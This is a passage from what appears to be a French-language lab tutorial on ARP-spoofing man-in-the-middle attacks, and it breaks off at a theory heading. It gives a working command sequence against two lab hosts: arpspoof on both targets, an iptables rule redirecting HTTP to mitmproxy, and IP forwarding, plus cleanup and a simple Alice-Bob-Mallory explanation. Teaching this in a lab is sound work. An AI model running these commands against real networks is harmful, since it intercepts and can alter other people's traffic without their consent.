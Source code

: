   




### Vérification et Conclusion

1. **Tester l'Attaque** :
   - Sur `Victim1`, ouvrez un navigateur et accédez à un site web HTTP (non HTTPS).
   - Sur `attacker`, vous devriez voir le trafic intercepté dans `mitmproxy`.



2. **Arrêter l'Attaque** :
   - Arrêtez `arpspoof` et `mitmproxy` en utilisant `Ctrl + C`.
   - Réinitialisez les règles `iptables` :
     ```sh
     sudo iptables -t nat -F
     ```



### Résumé des Commandes

#### Machine Attaquant (Attacker)

```sh
# Activer le transfert IP
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Empoisonner les tables ARP
sudo arpspoof -i enp0s8 -t 10.0.2.20 10.0.2.30
sudo arpspoof -i enp0s8 -t 10.0.2.30 10.0.2.20

# Rediriger le trafic HTTP
sudo iptables -t nat -A PREROUTING -i enp0s8 -p tcp --dport 80 -j REDIRECT --to-port 8080

# Lancer mitmproxy
sudo mitmproxy -p 8080

# Réinitialiser les règles iptables
sudo iptables -t nat -F
```

### Théorie et Explications Vulgarisées

#### Qu'est-ce qu'une Attaque Man-in-the-Middle (MITM) ?

Imaginez deux amis, Alice (Victim1) et Bob (Victim2), qui échangent des lettres. Mallory (Attacker) est

 un individu malveillant qui intercepte et lit toutes les lettres échangées entre Alice et Bob, et parfois il modifie le contenu des lettres avant de les envoyer à la destination prévue. Une attaque Man-in-the-Middle fonctionne de manière similaire en interceptant les communications entre deux parties.

#### Comment l'Attaque Fonctionne-t-elle ?
